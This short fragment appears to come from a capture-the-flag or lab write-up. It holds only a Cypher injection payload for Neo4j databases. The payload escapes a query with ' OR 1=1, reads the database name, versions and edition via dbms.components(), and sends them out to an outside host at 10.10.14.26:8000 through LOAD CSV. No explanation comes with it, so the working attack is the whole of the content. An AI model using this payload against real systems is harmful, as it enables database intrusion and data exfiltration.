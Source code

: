 ``` ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.26:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // ```






